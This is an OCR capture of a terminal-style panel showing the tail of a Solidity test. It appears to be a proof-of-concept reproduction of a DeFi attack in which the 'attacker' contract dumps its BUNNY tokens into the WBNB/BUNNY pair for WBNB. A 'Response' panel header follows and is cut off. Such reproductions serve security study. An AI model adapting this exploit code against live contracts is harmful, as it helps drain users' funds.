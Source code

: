 │             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                        │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                         │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                          │
│             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                  │
│                 bunnyBalance,                                                                                                                                                                                                                         │
│                 reserve1,                                                                                                                                                                                                                             │
│                 reserve0                                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │
│             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                     │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                 │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                             │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮